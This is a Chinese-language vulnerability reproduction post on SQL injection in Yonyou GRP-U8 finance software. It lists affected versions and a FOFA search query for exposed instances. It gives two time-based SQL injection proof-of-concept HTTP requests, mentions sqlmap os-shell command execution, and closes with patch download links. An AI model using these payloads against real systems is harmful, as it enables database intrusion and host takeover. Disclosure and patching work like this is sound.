



# 用友GRP-U8 SQL注入漏洞复现

### 0x01 产品简介

    用友GRP-U8R10行政事业[财务管理](https://so.csdn.net/so/search?q=%E8%B4%A2%E5%8A%A1%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

 用友GRP-U8的bx\_historyDataCheck jsp、slbmbygr.jsp等接口存在SQL注入漏洞，由于用友GRP-U8未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞，进一步利用可造成主机失陷。

### 0x03 影响范围

用友GRP-U8R10 U8Manager B、C、G 系列产品 < 20230905

### 0x04 复现环境

FOFA：app="用友-GRP-U8"


### 0x05 漏洞复现

PoC-1

```cobol
GET /u8qx/slbmbygr.jsp?gsdm=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: your-ip
```

延时5秒



Sqlmap验证



PoC-2

```cobol
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

userName=';WAITFOR DELAY '0:0:6'--&class.module.classLoader.DefaultAssertionStatus=
```

 延时6秒



利用os-shell命令执行


### 0x06 修复建议

目前官方已发布更新补丁，获取安全补丁方式如下：

1\. 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA 提取码：n1xy

2\. 用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY密码：a61h

下载【20230905-关于用友GRP-U8 bx\_historyDataCheck jsp存在SQL注入漏洞的解决方案.zip】

更新用友GRP-U8 Manager产品的2023年10月份（日期大于等于均可）标准补丁也可以修复此问题。
